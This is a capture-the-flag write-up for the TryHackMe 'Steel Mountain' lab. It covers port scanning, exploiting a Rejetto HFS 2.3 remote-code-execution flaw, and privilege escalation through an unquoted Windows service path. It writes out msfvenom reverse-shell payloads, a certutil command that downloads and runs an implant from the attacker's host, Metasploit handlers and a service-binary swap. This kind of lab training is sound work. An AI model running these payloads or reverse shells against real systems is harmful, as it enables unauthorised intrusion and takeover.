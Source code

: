 ```yaml
---
title: Steel Mountain WriteUp
description: Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.
tags:
- writeups
- tryhackme
- windows
- polished
---
```

## Enumeration

Target is a Windows machine so likely blocking ping

Initial port scan

```bash
sudo nmap -Pn 10.10.115.107
```

Results:
```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49163/tcp open  unknown
```

Port 80 shows a webpage saying employee of the month.  
The image name is BillHarper.png answering who the employee is.
![Employee of the month](/images/steelmountain-1.png)

Digging into http server on port 8080
```bash
sudo nmap -Pn -p 8080 -sV 10.10.115.107
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    HttpFileServer httpd 2.3
```

Googling revealed the name is `Rejetto HTTP File Server` and version 2.3 has an RCE vuln.

## Initial Access

`searchsploit rejetto` showed the exploits locally and so I copied the exploit to make modifications
```bash
cp /usr/share/exploitdb/exploits/windows/remote/39161.py exploit.py
```
I edited the exploit to have my ip_addr and port 1234.

I opened `msfconsole` and started a shell handler
```msf
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 0.0.0.0
set LPORT 1234
set exitonsession false
run -j
```
The `exitonsession false` is important as the exploit comments say that it will spawn multiple shells
and that we need to handle that.

I received 4 shells.

## Getting Meterpreter

The shell upgrade module failed so had to instead create a meterpreter binary and copy it over.
```bash
msfvenom -e x86/shikata_ga_nai -p windows/meterpreter/reverse_tcp 'LHOST=10.4.32.196' LPORT=8081 -f exe > /var/www/html/steelmountain.exe
```

Started a handler with
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LPORT 8081
run -j
```
From one of the windows sessions I downloaded and ran the implant with:
```cmd
certutil.exe -urlcache -split -f "http://10.4.32.196/steelmountain.exe" C:\Users\bill\steelmountain.exe
cd C:\Users\bill
START /B /I steelmountain.exe
```
I then backgrounded the session with ++ctrl+z++

## Escalation

Copied latest version of PowerUp.ps1 to machine

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```
**Output**
```bash
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```
I then backgrounded the session with ++ctrl+z++

Meaning we can stop the `AdvancedSystemCareService9` service, replace
`C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe` with a malicious binary and restart the service
to elevate to system.

Generated replacement with
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.32.196 LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```
Start a netcat listener
```bash
nc -vlp 4443
```
In meterpreter stop the service, replace the binary and restart it
```
load extapi
service_control stop advancedsystemcareservice9
cd C:/Program\ Files\ (x86)/IObit/Advanced\ SystemCare/
cp ASCService.exe ASCService.exe.bak
upload Advanced.exe ASCService.exe
service_control start advancedsystemcareservice9
```
We then get a lovely message in our `nc` terminal
```bat
connect to [10.4.32.196] from (UNKNOWN) [10.10.141.129] 49258
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

From the shell, get the admin flag with:
```bat
type C:\Users\Administrator\Desktop
```

